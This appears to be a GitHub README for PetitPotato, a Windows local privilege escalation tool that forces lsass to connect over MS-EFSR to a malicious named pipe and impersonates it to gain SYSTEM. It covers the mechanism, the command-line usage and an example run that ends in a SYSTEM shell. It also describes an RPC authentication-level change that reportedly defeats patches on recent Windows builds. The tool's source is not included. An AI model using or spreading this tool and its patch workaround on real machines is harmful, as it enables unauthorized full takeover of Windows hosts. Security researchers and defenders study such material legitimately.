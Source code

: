 # PetitPotato

Local privilege escalation via PetitPotam (Abusing impersonate privileges).

## Description

[PetitPotam](https://github.com/topotam/PetitPotam) uses MS-EFSR (Encrypting File System Remote), a protocol used to perform maintenance and management operations on encrypted data stored remotely and accessed over a network. There are a series of APIs similar to `EfsRpcOpenFileRaw` in MS-EFSR. The syntax of the `EfsRpcOpenFileRaw` API is shown below.

```c++
long EfsRpcOpenFileRaw(
   [in] handle_t binding_h,
   [out] PEXIMPORT_CONTEXT_HANDLE* hContext,
   [in, string] wchar_t* FileName,
   [in] long Flags
 );
```

Such APIs can specify a UNC path via the FileName parameter to open encrypted objects on the server for backup or restore. When the path in the format `\\IP\C$` is specified, the lsass.exe service will access `\\IP\pipe\srvsvc` with `NT AUTHORITY SYSTEM` account privileges.

If we can call the `EfsRpcOpenFileRaw` API to force the local computer to connect to the malicious named pipe we created, then we can impersonate the named pipe client process and eventually gain the SYSTEKM privilege.

## Usage

```powershell
PetitPotato.exe [EfsID] [Command]
```

- `EfsID`: MS-EFSR API number to use
- `Command`: command to execute

## Example

```cmd
C:\Users\Administrator\Desktop>PetitPotato.exe 3 cmd.exe

[+] Malicious named pipe running on \\.\pipe\petit\pipe\srvsvc.
[+] Invoking EfsRpcQueryUsersOnFile with target path: \\localhost/pipe/petit\C$\wh0nqs.txt.
[+] The connection is successful.
[+] ImpersonateNamedPipeClient OK.
[+] OpenThreadToken OK.
[+] DuplicateTokenEx OK.
[+] CreateProcessAsUser OK.
Microsoft Windows [版本 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

![image-20221030165055659](/images/image-20221030165055659.png)

![image-20221030165622668](/images/image-20221030165622668.png)

PetitPotam does not work on newer versions of Windows due to the limitations of related patches. However, setting AuthnLevel to RPC_C_AUTHN_LEVEL_PKT_PRIVACY via RpcBindingSetAuthInfoW before calling EFS works on latest systems.
At present, the project can perfectly elevate to SYSTEM authority on Windows 21H2 10.0.20348.1547

![image-20221030165055659](/images/image-20221030165155659.png)

## Link

- https://github.com/topotam/PetitPotam
- https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
- https://itm4n.github.io/from-rpcview-to-petitpotam/
- https://github.com/zcgonvh/EfsPotato/pull/5

